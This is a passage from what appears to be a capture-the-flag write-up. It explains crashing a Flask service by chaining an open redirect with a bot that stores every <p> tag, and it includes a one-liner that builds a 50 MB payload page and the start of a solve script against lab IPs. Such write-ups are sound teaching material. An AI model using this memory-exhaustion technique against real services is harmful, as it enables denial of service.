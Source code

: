 So here is something funny, the bot when visiting a link will parse and look for all `<p>` tags and save their content to a global list, this global list can help us fill up the memory of the application. 

If we reuse the `open redirect` vulnerability to force the bot to visit one of our own links again, but provide a *HUGE* `<p>` tag, we will make the flask service hog op memory, hopefully enough to make `superlance` come around and restart it.

We can create such an `index.html` file with the following python one-liner:

```python
open('index.html', 'w').write('<!DOCTYPE html><html><head></head><body><p>' + 'x'*1000*1000*50 + '</p></body></html>')
```

This creates a `50 mb` `<p>` tag, it could be possible to create a larger, but the bot has a timeout of max 10 seconds of live time, and we want to make sure that the bot actually manages to download and parse the huge html document in time, since it is kept in memory we can just force to bot to visit many times, until memory is exceeded.

So let us send the bot to our huge `index.html` file and wait for the service to get restarted, afterwards we can just log in and go to the main page where the function `escape()` is used on the main page.

<video autoplay loop muted playsinline controls>
  <source src="/crash.webm" type="video/webm">
  Your browser does not support the video tag.
</video>

And we got the last flag! Challenge solved!

## Creating a solve script
I think its cool to have a full solve script, so I made that, you will need to have the `httpsserver.py`, `index.html` (with large `<p>` tag, `html.py` and `solve.py` in the same directory for it to work) here is `solve.py`

```python
# solve.py
import requests
import time
import subprocess

my_ip = "172.19.0.3"
target_url = "http://172.19.0.2:80"

### Create a user first
print("[*] Creating a user")
register_url = f"{target_url}/api/register"
register_payload={"password": "a", "signup_code": "aar~-000q-022", "username": "abc@xx.com"}
r = requests.post(register_url, json=register_payload)
if r.status_code != 200:
    print("[-] Failed to create user")
    exit(1)
print("[+] User created")

time.sleep(1)

### login with this new user
print("[*] Logging in")
user_session = requests.session()
login_url = f"{target_url}/api/login"
login_payload={"password": "a", "username": "abc@xx.com"}
response = user_session.post(login_url, json=login_payload)
if response.status_code != 200:
    print("[-] Failed to login")
    exit(1)
print("[+] Logged in")
```